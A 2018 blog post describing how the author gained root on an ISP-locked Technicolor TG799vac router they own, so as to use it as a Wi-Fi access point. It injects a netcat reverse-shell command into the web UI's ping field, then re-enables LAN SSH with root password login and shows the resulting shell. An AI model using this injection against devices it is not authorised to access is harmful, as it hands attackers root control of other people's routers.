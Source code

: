 ```yaml
---
title: Getting root access to your Technicolor TG799vac Xtream (Crimson (15.4))
date: 2018-07-25T12:00:00Z
categories:
- Hardware
- Router
---
```

## Intro
Today, I received a free Technicolor TG799vac Xtream router from my ISP, which seems to have quite decent hardware according to my google-fu. I already have a router (two technically speaking), so I have no real need for it. But I have a way it might come to use.

See, currently I have one router without any radio, which I use as my main gateway and router. This is a really nice machine for the most part, so I really like having it for that purpose.  But since I also need WiFi at home, I have my old router which only runs as an access point, forwarding all traffic to my router. Since this AP is upstairs, it wouldn't be too bad having another AP downstairs, maybe somewhere where it gives better WiFi to my garden or garage. This is the idea at least.

Sadly, my ISP has locked the new router down. Making it not possible to put it any kind of AP-only/bridge mode. Fortunately, the security for the device seems shitty, making it easy to get root access through the web interface.

## Steps to gain shell root access
1. Connect to the router's network  
2. Start listening with netcat on your favourite port - `nc -l 8080`  
3. Log in to the web interface with the information you received from your ISP - in my case it's located at http://192.168.10.1 and the username is *admin*  
4. Go to the *Diagnostics Ping & Traceroute* card  
5. Under *Ping Statistics*, Set *IP Address* to `:::::::;nc 192.168.10.216 8080 -e /bin/sh` and press *Send Ping Request*  
6. Back to the netcat window, here you should have root access to an ash-shell, even though nothing is visible right now. Type any command, like`ls`, to confirm.  
7. Since these kind of reverse-shells are a pain to work in, the first step is getting access to ssh.
Luckily, there should be one installed, though blocked for you.
To see the configuration, type `cat /etc/config/dropbear`. Mine looked like this:  

```
config dropbear
    option PasswordAuth 'off'
    option RootPasswordAuth 'on'
    option Port '22'
    option Interface 'wan'
#this statement in itself is not working, need FW rule:
    option AllowedClientIPs '195.54.114.216/29 195.54.106.0/28 195.54.106.144/28'
    option enable '1'

#config dropbear
#        option PasswordAuth     'on'
#        option RootPasswordAuth 'on'
#        option Port             '22'
#        option Interface        'lan'
#        option enable '1'
```
Here we see that the router is completely open to people from some ip-ranges from WAN, but closed to you. In fact the complete opposite from what we want. If you have exactly the same configuration, you have fix it by running `sed -i -e '1,9 d' -e's/#//' /etc/config/dropbear`. You want to end up with something like this:
```
config dropbear
        option PasswordAuth     'on'
        option RootPasswordAuth 'on'
        option Port             '22'
        option Interface        'lan'
        option enable '1'
```
8. Restart dropbear - `/etc/init.d/dropbear restart`  
9. Connect through ssh from another shell - `ssh root@192.168.10.1`, username and password is *root*. TADA

```
The authenticity of host '192.168.10.1 (192.168.10.1)' can't be established.
RSA key fingerprint is SHA256:ZEP4kdhhGqvYO4cNN3aAkXUXs+MPHMA2fpv1WlL7O90.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.10.1' (RSA) to the list of known hosts.
root@192.168.10.1's password:


BusyBox v1.19.4 (2016-12-23 11:07:18 UTC) built-in shell (ash)
Enter 'help' for a list of built-in commands.

-----------------------------------------------------------------------
                        ##
                   #########
                 ###########
                #########
               ####                      ##
              ##          ##             ##
      ###########        #####   ####    ##    ####    ## ###     ####    ## ##
   ########   #####       ##   ##    ##  ##  ##    ##  #######  ##    ##  #####
  ########    #######     ##   ##    ##  ##  ##    ##  ##   ##  ##    ##  ###
########      ########    ##   ########  ##  ########  ##   ##  ##    ##  ##
#######        ########   ##   ##        ##  ##        ##   ##  ##    ##  ##
######         #########  ####  ######   ###  ######   ##   ##    ####    ##
  ##            #########
                #########
                 ########
                  #######
                   #####
-----------------------------------------------------------------------

Product: vant-w_telenor_r15-4
Release: Crimson (15.4)
Version: 15.53.7451-1761003-20170320115330
```  
10. (Optional) Put your own rsa-key in */etc/dropbear/authorized_keys* and remove password login from */etc/config/dropbear*  

## What now
Now, it seems like the real OS is openwrt, meaning opkg is installed, which in turn can be used to install whatever you need. It also seems possible to unlock more cards on the web interface through the config in /etc/config. I might update this guide with some more info on this later.

